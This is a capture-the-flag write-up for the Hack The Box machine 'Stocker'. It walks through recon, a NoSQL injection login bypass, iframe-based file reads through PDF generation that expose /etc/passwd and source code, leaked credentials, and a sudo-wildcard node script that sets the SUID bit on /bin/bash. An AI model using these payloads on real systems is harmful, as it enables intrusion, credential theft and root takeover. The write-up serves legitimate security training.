




## Stocker

### nmap
```sh {linenos=true}
# Nmap 7.92 scan initiated Sat Apr  1 22:24:49 2023 as: nmap -sC -sV -oA nmap/stocker -T4 10.10.11.196
Nmap scan report for 10.10.11.196
Host is up (0.013s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3d:12:97:1d:86:bc:16:16:83:60:8f:4f:06:e6:d5:4e (RSA)
|   256 7c:4d:1a:78:68:ce:12:00:df:49:10:37:f9:ad:17:4f (ECDSA)
|_  256 dd:97:80:50:a5:ba:cd:7d:55:e8:27:ed:28:fd:aa:3b (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://stocker.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Apr  1 22:24:57 2023 -- 1 IP address (1 host up) scanned in 7.90 seconds
```

### searchsploit
Right away, I looked into the `nginx` version and `ssh` version.

Then I added `stocker.htn` to `/etc/hosts/` and checked the website. `Wappalyzer` (browser extension) showed the site uses `Eleventy` and the template is website template is `stride`. I also looked these up in `searchsploit`. Nothing seemed too promising.

### gobuster
Then I decided to use `gobuster` to see if it gave any interesting subdirectories or vhosts.

*subdirectory enumeration:*
```sh
┌──(kali㉿kali)-[~/htb/stocker]                                                                         
└─$ gobuster dir -u http://stocker.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.
txt -z -o gobuster.out       

===============================================================                                         
Gobuster v3.1.0                                                                                         
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)                                           
===============================================================                                         
[+] Url:                     http://stocker.htb                                                         
[+] Method:                  GET                                                                        
[+] Threads:                 10                                                                         
[+] Wordlist:                /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt          
[+] Negative Status codes:   404                                                                        
[+] User Agent:              gobuster/3.1.0                                                             
[+] Timeout:                 10s                                                                        
===============================================================                                         
2023/04/01 22:33:42 Starting gobuster in directory enumeration mode                                     
===============================================================                                         
/img                  (Status: 301) [Size: 178] [--> http://stocker.htb/img/]                           
/css                  (Status: 301) [Size: 178] [--> http://stocker.htb/css/]                           
/js                   (Status: 301) [Size: 178] [--> http://stocker.htb/js/]                            
                                                                                                        
===============================================================                                         
2023/04/01 22:33:51 Finished                                                                            
===============================================================
```

*vhost enumeration:*
```sh
┌──(kali㉿kali)-[~/htb/stocker]                                                                         
└─$ gobuster vhost -u http://stocker.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-500
0.txt -z -o vhost.out                                                        

===============================================================                                         
Gobuster v3.1.0                                                                                         
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)                                           
===============================================================                                         
[+] Url:          http://stocker.htb                                                                    
[+] Method:       GET                                                                                   
[+] Threads:      10
[+] Wordlist:     /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2023/04/01 22:54:10 Starting gobuster in VHOST enumeration mode
===============================================================
Found: dev.stocker.htb (Status: 302) [Size: 28]
                                                
===============================================================
2023/04/01 22:54:20 Finished
===============================================================
```

*subdirectory enumeration on vhost:*
```sh
gobuster dir -u http://dev.stocker.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -z -o gobuster.out
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://dev.stocker.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2023/04/01 23:22:32 Starting gobuster in directory enumeration mode
===============================================================
/static               (Status: 301) [Size: 179] [--> /static/]
/login                (Status: 200) [Size: 2667]              
/stock                (Status: 302) [Size: 48] [--> /login?error=auth-required]
                                                                               
===============================================================
2023/04/01 23:22:48 Finished
===============================================================
```

`/stock` seemed interesting.

### sqlmap
`dev.stocker.htb` took me to a login page. I tried a few random default passwords with no luck. Then I threw `sqlmap` at it to see if SQLi would work here.

```sh
sqlmap -u "http://dev.stocker.htb/login" --data="username=admin&password=pass" --level=5 --risk=3 --
banner
```

This didn't have any luck.

### burpsuite
[HackTricks](https://book.hacktricks.xyz/pentesting-web/nosql-injection#basic-authentication-bypass) NoSQL Injection section to the rescue.

```sh
{"username": {"$ne": null}, "password": {"$ne": null} }
```




After monitoring these requests with `burp`, I realized malicious `iframe`'s can be used to pull information from the server such as `/etc/passwd`:
```http
POST /api/order HTTP/1.1
Host: dev.stocker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://dev.stocker.htb/stock
Content-Type: application/json
Origin: http://dev.stocker.htb
Content-Length: 225
Connection: close
Cookie: connect.sid=
s%3ADTAH3L2HfmT2Cn6zhHfOfyr18Jes4y_c.rWc8wNthMi0JSQbkmNXfQid2y2ySv0JnmPglTMKjUmI

{
    "basket":[
        {
            "_id":"638f116eeb060210cbd83a8f",
            "title":"<iframe src=file:///etc/passwd height=750px width=750px</iframe>",
            "description":"It's a rubbish bin.",
            "image":"bin.jpg",
            "price":76,
            "currentStock":15,
            "__v":0,
            "amount":1
        }
    ]
}
```

The server replies with: 
```http
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Sun, 02 Apr 2023 18:50:21 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 53
Connection: close
X-Powered-By: Express
ETag: W/"35-haqxAbz2IXEyESkOv8R4XgQqfnw"

{
    "success":true,
    "orderId":"6429d02b9cf17ad01a93e155"
}
```

Finally, I checked the PDF receipt with the `orderId` the API generates to see the output.



I repeated these steps to locate the javascript source code.

*Request:*
```http
POST /api/order HTTP/1.1
Host: dev.stocker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://dev.stocker.htb/stock
Content-Type: application/json
Origin: http://dev.stocker.htb
Content-Length: 225
Connection: close
Cookie: connect.sid=
s%3ADTAH3L2HfmT2Cn6zhHfOfyr18Jes4y_c.rWc8wNthMi0JSQbkmNXfQid2y2ySv0JnmPglTMKjUmI

{
    "basket":[
        {
            "_id":"638f116eeb060210cbd83a8f",
            "title":"<iframe src=file:///var/www/dev/index.js height=750px width=750px</iframe>",
            "description":"It's a rubbish bin.",
            "image":"bin.jpg",
            "price":76,
            "currentStock":15,
            "__v":0,
            "amount":1
        }
    ]
}
```

*Response:*
```http
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Sun, 02 Apr 2023 19:06:33 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 53
Connection: close
X-Powered-By: Express
ETag: W/"35-oWX982b+eWRapIaO22T+EspEwGI"

{
    "success":true,
    "orderId":"6429d2399cf17ad01a93e15a"
}
```



Creds acquired!

```
angoose@10.10.11.196 | IHeardPassphrasesArePrettySecure
```

### privesc
Initial triage showed `angoose` has `sudo` privs for running `/usr/bin/node` on the path `/usr/local/scripts/*.js`. I took advantage of this wild card and wrote a malicious `esc.js` to make `/bin/bash` have the `SETUID` bit.

```sh
angoose@stocker:~$ sudo -l
[sudo] password for angoose:
Matching Defaults entries for angoose on stocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User angoose may run the following commands on stocker:
    (ALL) /usr/bin/node /usr/local/scripts/*.js
```

*file: esc.js*
```js
const { exec } = require("child_process");
exec("chmod u+s /bin/bash", (error, stdout, stderr) => {
    if (error) {
        console.log(`error: ${error.message}`);
        return;
    }
    if (stderr) {
        console.log(`stderr: ${stderr}`);
        return;
    }
    console.log(`stdout: ${stdout}`);
});
```



### Flags

**user.txt:** `35ead2014cf3831c2b46a6d7108f48f1`

**root.txt:** `8e386772be19262c050d62534c53ee1d`